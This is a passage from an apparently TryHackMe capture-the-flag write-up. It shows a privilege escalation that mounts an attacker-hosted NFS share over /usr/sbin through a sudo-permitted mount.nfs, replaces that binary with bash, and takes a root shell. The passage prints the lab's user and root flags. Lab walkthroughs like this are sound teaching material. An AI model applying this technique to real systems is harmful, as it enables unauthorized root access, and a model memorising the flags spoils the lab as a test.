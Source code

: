 ![](cybersecurity/images/Pasted%2520image%252020250702185446.png)

Now, let's restart the service:

```
sudo exportfs -a

sudo systemctl restart nfs-kernel-server
```

We can now attempt to connect using sudo on the machine:

```
sudo /usr/sbin/mount.nfs -o port=443 10.14.21.28:/tmp/share /usr/sbin
```

If we check `/usr/sbin`, we can now realize it is writable:

```
jojo@tonhotel:/$ ls -la /usr/sbin
total 4
drwxrwxrwx  2 nobody nogroup   40 Jul  2 23:49 .
drwxr-xr-x 14 root   root    4096 Aug 31  2022 ..
```

![](cybersecurity/images/Pasted%2520image%252020250702190134.png)

We can simply replace `/usr/sbin/mount.nfs` with `/bin/bash`:

```
cp /bin/bash /usr/sbin/mount.nfs

jojo@tonhotel:/$ ls -la /usr/sbin
total 1160
drwxrwxrwx  2 nobody nogroup      60 Jul  3 00:01 .
drwxr-xr-x 14 root   root       4096 Aug 31  2022 ..
-rwxr-xr-x  1 jojo   jojo    1183448 Jul  3 00:01 mount.nfs
```

Now, let's use sudo to get our shell:

```
jojo@tonhotel:/$ sudo /usr/sbin/mount.nfs
root@tonhotel:/# whoami
root
```

![](cybersecurity/images/Pasted%2520image%252020250702190338.png)

There we go, let's get both flags and end the CTF:

```
root@tonhotel:/# cat /home/sandra/user.txt
thm{5b23d1881ee6a6cfac85866b9a4ff941ecd2fa3e}

root@tonhotel:/# cat /root/root.txt
thm{7f6b4d8aee9e1677a0db343ace5fff23fc5b5d3b}
```


![](cybersecurity/images/Pasted%2520image%252020250702190453.png)


